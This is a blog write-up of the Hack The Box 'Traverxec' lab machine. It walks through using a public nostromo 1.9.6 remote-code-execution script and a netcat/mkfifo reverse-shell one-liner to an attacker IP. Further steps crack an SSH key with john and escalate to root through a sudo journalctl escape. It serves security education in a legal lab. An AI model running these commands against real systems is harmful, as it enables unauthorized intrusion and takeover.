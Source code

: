 ```yaml
---
layout: single
title: "Hack The Box Write-up #1 : Traverxec"
excerpt: "My walkthrough of Traverxec Machine from HackTheBox"
date: 2020-04-11
header:
  teaser: /assets/images/traverxec-walkthrough/traverxec.png
  teaser_home_page: true
categories:
  - hackthebox
  - infosec
tags:
  - nostromo  
  - journalctl
  - gtfobins
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/traverxec.png)

## Enumeration

We start by doing a nmap scan which gives the following results :

-
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 04:12 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.82 seconds
```

We have 2 ports opened from the initial scan : 22 (SSH) , 80 (HTTP) …                                                            
Before even trying to enumerate the webpage , We can notice “nostromo 1.9.6” running on port 80.                                  

I made a quick research of the mentioned service running on the webpage and ended up with the
following results :```
root@kali:~# searchsploit "nostromo 1.9.6"
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
nostromo 1.9.6 - Remote Code Execution | exploits/multiple/remote/47837.py
--------------------------------------- ----------------------------------------
```

- Command Execution… 

That seems nasty.
First lets copy the the script to a more flexible directory and start to test it.

```
cp /usr/share/exploitdb/exploits/multiple/remote/47837.py  /root/machines/traverxec
```

```
python 47837.py
```

![rce](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t3.png)

We see there are 3 required parameters : 
- Target ip address (10.10.10.165) 
- Target Port (80) 
- Command to execute (ex. Whoami).

```
python 47837.py 10.10.10.165 80 whoami
```

![proof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t4.png)

As we see … we could execute commands to the remote server using the script from exploitdb.
Lets try and see if we can get ourselves a reverse shell to have a better experience while running commands on the remote server.

We are going to use netcat to do this…

```
python 47837.py 10.10.10.165 80 “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f”
```

![shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t5.png)

We have a reverse shell on the remote server as www-data.
From now we can try and enumerate the webserver in /var/nostromo :

![enum](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t6.png)

There seems to be the conf folder which may include possible information on how to escalate to user.

Reading nhttpd.conf file We see a lot of juicy information :

![conf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t7.png)

We can see that david which is also an user in the current machine seems to have been configured as the server admin, and more than that we can see that the public_www folder is located in /home

While we tried to enumerate … there was no such public_www in /home :

![home](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t8.png)

But since we saw : david was the server admin , the public_www should probably be inside his folder too.
We cannot actually list the files inside david home folder but we can try to directly access the mentioned directory as www-data and see if we can find something else :

![data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t9.png)

As expected , we could directly access : public_www and we see the index.html file alongside an interesting directory claiming to hold protected files .                                                                                                                                                          
There seems to be a backup of the ssh keys inside there so I grabbed the files to my machine to try and login as user david

![backup](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/tx.png)

## USER ESCALATION

id_rsa seems to be encrypted and we can probably use john to convert and try to crack it :
![hash](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t10.png)

We pass the generated ssh hash to john and run it against rockyou.txt wordlist to see if we could get anything interesting…

![key](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t11.png)

John managed to succesfully crack the file , and the key seems to be “hunter”.                                                  
Lets try and login with the file since we have its key now :

![ssh](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t12.png)

We could succesfully login using ssh and now we can also easily grab the user flag. :)


## ROOT ESCALATION

After logging in , this is what we have in the home folder except user.txt :

![content](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t13.png)

- bin seems interesting , so we will enumerate it a little more to see what could it bring to us…

We have 2 files inside bin folder :

- A script written in bash which happens to read the last 5 log lines of nostromo :

![script](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t14.png)

- A header for the above script :

![header](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t15.png)

By analyzing the first script , we see that it is running journalctl as sudo against nostromo service to show the last 5 lines, and also I noticed that the execution of /usr/bin/cat prevents journalctl from remaining executed .

It looks like we have permissions to run the above sudo command against nostromo without the need of the password .

The bin folder is writable from our user so we can try to make another similar script but without usr/bin/cat in it . This way journalctl can remain executed on the script and we can try to abuse it somehow to escalate to root.

![customs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t16.png)

As we see now , after executing our edited script , journalctl remains executed and now we can attempt to abuse it to gain root access …

The following website can help us with the simplest methods to escalate to a root shell from journalctl:
[GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/)

And as we see , we can simply type !/bin/sh in the running session of journalctl to get a system shell

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t17.png)

This happened to work perfectly … and now we have a shell executed as root .

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t18.png)

This way we can easily navigate to root folder and grab the root flag.

### TRAVERXEC WAS INDEED A GOOD EASY BOX AND WE ENJOYED IT MAXIMALLY WHILE NAVIGATING THROUGH THE STEPS.

## THANK YOU FOR READING !

![profile](https://www.hackthebox.eu/badge/image/111862)
